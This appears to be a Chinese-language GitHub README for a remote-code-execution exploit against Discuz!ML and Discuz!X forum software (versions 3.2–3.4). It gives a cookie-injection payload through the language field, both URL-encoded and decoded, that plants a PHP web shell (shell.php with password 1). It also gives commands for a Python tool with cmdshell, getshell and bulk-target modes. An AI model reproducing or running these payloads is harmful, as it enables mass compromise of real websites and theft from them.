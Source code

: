 # discuz-ml-rce
影响系统及版本：Discuz!ML V3.2-3.4 Discuz!x V3.2-3.4
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。




cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE

抓包找到cookie的language的值修改为

xxxx_xxxx_language=sc'.phpinfo().'


getshell

%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27
实际为：

'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).'



即可在路径下生成shell.php，连接密码为1



================================================================================================================================================================
判断是否存在漏洞

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php"


cmdshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --cmdshell


getshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --getshell


批量检测

python dz-ml-rce.py -f urls.txt


批量getshell

python dz-ml-rce.py -f urls.txt --getshell




